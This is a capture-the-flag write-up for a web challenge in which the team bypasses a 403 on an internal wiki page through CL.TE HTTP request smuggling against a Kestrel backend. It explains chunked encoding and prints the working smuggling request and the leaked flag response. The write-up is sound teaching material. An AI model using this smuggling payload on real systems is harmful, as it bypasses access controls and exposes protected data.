




# Web - Welcome aboard
Solved with Rabjho and Mazraz
## Description
Difficulty: Medium
Author: Budji

Your employee account has access to the Brunnerne Inc. Wiki, where you'll find onboarding guides and technical documentation. The platform sits behind multiple layers of infrastructure, and IT is confident every chunk reaches the backend, exactly as expected. Explore the wiki and see if everything behaves as intended.

NOTE: On challenge start, if you get a 404 error or similar, please try again in 30-60 seconds. The challenge has connection issues in Safari. Please use another browser like Firefox or a Chromium-based.

## Writeup
Note no source was given for the challenge.

We are given access to a simple wiki with a few pages and search.


Using Burp with the website gives an error "Stream failed to close correctly". It seems to be a [common error](https://joshua.hu/http2-burp-proxy-mitmproxy-nginx-failing-load-resources-chromium), which comes fromBurp trying to upgrade the connection to HTTP/2. To see the trafic, disable upgrading to HTTP/2 in settings:


The description mentions "layers of infrastructure, and IT is confident every chunk reaches the backend, exactly as expected", which suggests some parts of infrastructure might behave different than others. Rabjho suggested that the word "chunk" hints at request smuggling vulnerabilities and noticed robots.txt containing:

```
User-agent: *
Disallow: /wiki/internal/flag
```

Accessing the route directly returns 403 and `Access is forbidden.`.

I used Burp Suite to look at traffic and noted "Server: Kestrel" in the response headers. Looking through [CVEs it had](https://app.opencve.io/cve/?product=kestrel&vendor=asrmicro), there was [a critical one due to request smuggling](https://www.microsoft.com/en-us/msrc/blog/2025/10/understanding-cve-2025-55315). (However, my search engine didn't list all the other exploit writeups that the challenge author mentioned in their [writeup](https://github.com/Budji/welcome-aboard-author-writeup#exploit). Would have been so much easier if I had found them :hide-the-pain-harold:)

### Request smuggling

Request smuggling vulnerabilities have been quite the rage the last few years, and there was even an update to the request smuggling saga at DEFCON some 2 weeks prior to BrunnerCTF, so I wondered if the chall was related to that research. There were two presentations, ["Can AI do novel security research? Meet the HTTP Terminator" by albinowax](https://info.defcon.org/defcon34/content/66581) and ["CRLF-Powered Desync Attacks: Beheading HTTP streams" by Tom Stacy and Tobia Righi](https://info.defcon.org/defcon34/content/66649) (this one I got a chance to join during DEFCON 34! Really cool presentation, check it out when it becomes available online).

There was a ton of research around the topic published by albinowax and frankly, if not for "chunk" in the description, I'm not sure how much time I'd have spent on this specific route. I started with [the PortSwigger blog posts](https://portswigger.net/web-security/request-smuggling), going into detail to understand how "Transfer-Encoding: chunked" worked, getting correct values for "Content-Length", etc, and I did the linked PortSwigger Labs one by one, otherwise it would be really hard to get the exact payload right.

In short: request smuggling vulnerabilities exploit modern app architecture, that consists of many layers (which was hinted in the description), e.g. frontend and backend. Since HTTP requests are often first processed by frontend, and then directly by backend, both should agree on when one request starts and ends. If they don't process requests the same way, we can exploit this behaviour to "force" one of the layers to issue requests it should not be doing. 

For example to get a flag by making the backend do the request that is blocked for us *big brain time*

### Where the request ends with Content-Length and Transfer-Encoding

HTTP/1 specification denotes where one request ends with the `Content-Length` and the `Transfer-Encoding` header. `Content-Length` is the length of the message of the request's body, e.g.

```http
POST /search HTTP/1.1
Host: welcome-aboard-1704439363bc54bc-global.challs.brunnerne.xyz:1337
Content-Length: 8
Content-Type: application/x-www-form-urlencoded
Connection: close

q=foobar
```

`q=foobar` is 8 bytes.

`Transfer-Encoding: chunked` specifies that the message body contains multiple chunks of data and some servers do not support it. From PortSwigger:
> Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. 
Let's take an example:
```http
POST /search HTTP/1.1
Host: welcome-aboard-1704439363bc54bc-global.challs.brunnerne.xyz:1337
Content-Type: application/x-www-form-urlencoded
Connection: close
Transfer-Encoding: chunked

e
q=foobarbazqux
0
```
`q=foobarbazqux` is 14 bytes, which in hex is `e`. We end the request with `0`.

From [`Transfer-Encoding: chunked` docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Transfer-Encoding#chunked):

>    Data is sent in a series of chunks. Content can be sent in streams of unknown size to be transferred as a sequence of length-delimited buffers, so the sender can keep a connection open, and let the recipient know when it has received the entire message. The Content-Length header must be omitted, and at the beginning of each chunk, a string of hex digits indicate the size of the chunk-data in octets, followed by \r\n and then the chunk itself, followed by another \r\n. The terminating chunk is a zero-length chunk.

### CL.TE request smuggling
During the CTF I tried several different types of request smuggling, but let's focus on a specific type of request smuggling, since it turned out this was the one we exploited.

In CL.TE the frontend uses Content-Length to terminate requests, and the backend ues Transfer-Encoding. In the payload, the Content-Length has to be the full length of the message body, so the whole request is forwarded to the backend. The length of the chunk is set to be 0, which terminates the request, so the backend processes the first chunk as if it had zero length, and the rest of the message body will be a new request.

Working through PortSwigger labs, I noted it's important to get the content lengths right (which depend on the type of request smuggling attack we are doing), and the number of CRLF (`\r\n`). If the content length is too long, usually it will timeout the connection. At one point I noticed that I was getting the right payload with the right content lengths, but the second request was malformed and returned 400. We can enable making `\r\n` visible in Repeater.



As for CRLF, I spent a _considerable amount of time_ with the wrong number of `\r\n`. The PortSwigger explanation for CL.TE show an example with the content (which will naturally be followed by `\r\n`), but no more than that.

However, this specific vulnerability had the chunk content plus its `\r\n` and another `\r\n`. I suppose its one of those ambigious behaviours, which depend on the server. It's a good lesson for the future.

While writing this writeup, I noticed the Mozilla docs mention `the chunk itself, followed by another \r\n.` The chunk already has its own `\r\n`, so what was meant was here was "the chunk with its `\r\n`, followed by another `\r\n`".

The final payload:
```http
POST /search HTTP/1.1
Host: welcome-aboard-799ea052784003f4-danmark.challs.brunnerne.xyz:1337
Content-Length: 114
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: close

0

GET /wiki/internal/flag HTTP/1.1
Host: welcome-aboard-799ea052784003f4-danmark.challs.brunnerne.xyz:1337

```
The message body is 114 bytes in Content-Length, including the invisible `\r\n`. If you enable showing `\r\n` and highlight the message body in Burp, it shows the length of the highlight.




As with CL.TE, we set the chunk length to 0, so the first chunk terminates at the beginning of the message body, and the rest is considered a new request by the backend. After sending the request, we get the response:

```http
HTTP/1.1 200 OK
Content-Length: 3299
Content-Type: text/html
Date: Tue, 25 Aug 2026 23:13:23 GMT
Server: Kestrel

<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width,initial-scale=1">
<title>Search Results | Brunnerne Inc. Wiki</title>
<style>
--- cut
</style>
</head>
<body>
<header>
<div class="header-top">
<a class="brand" href="/">Brunnerne Inc.</a>
</div>
<div class="search-wrap">
<form class="search-hero" method="post" action="/search">
<svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="#fff" stroke-width="2"><circle cx="11" cy="11" r="7"/><line x1="21" y1="21" x2="16.65" y2="16.65"/></svg>
<input type="text" name="q" placeholder="Search for answers...&hellip;">
</form>
</div>
</header>
<div class="breadcrumb">Help Center / Search Results</div>
<main class="card">
<h1>Search Results</h1>
<p>0 result(s) for &ldquo;&rdquo;</p>
<ul class="article-list">
<li>No matching articles.</li>
</ul>
<a class="back-link" href="/">&larr; Back to wiki</a>
</main>
<footer>Brunnerne Inc. internal knowledge base</footer>
</body>
</html>HTTP/1.1 200 OK
Content-Length: 3453
Content-Type: text/html
Date: Tue, 25 Aug 2026 23:13:23 GMT
Server: Kestrel

<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width,initial-scale=1">
<title>Q4 Payroll Notes (Internal) | Brunnerne Inc. Wiki</title>
<style>
--- cut
</style>
</head>
<body>
<header>
<div class="header-top">
<a class="brand" href="/">Brunnerne Inc.</a>
</div>
<div class="search-wrap">
<form class="search-hero" method="post" action="/search">
<svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="#fff" stroke-width="2"><circle cx="11" cy="11" r="7"/><line x1="21" y1="21" x2="16.65" y2="16.65"/></svg>
<input type="text" name="q" placeholder="Search for answers...&hellip;">
</form>
</div>
</header>
<div class="breadcrumb">Help Center / Q4 Payroll Notes (Internal)</div>
<main class="card">
<h1>Q4 Payroll Notes (Internal)</h1>
<div class="byline"><span class="avatar">HR</span><span>Written by HR</span></div>
<p>These notes are for the payroll team only and are not linked from the public wiki. Flag: brunner{00ps_th4t_p4g3_w4s_1nt3rn4l}</p>
<a class="back-link" href="/">&larr; Back to wiki</a>
</main>
<footer>Brunnerne Inc. internal knowledge base</footer>
</body>
</html>
```

It was a really cool chall and I'm glad I got to practice request smuggling. Thanks Budji!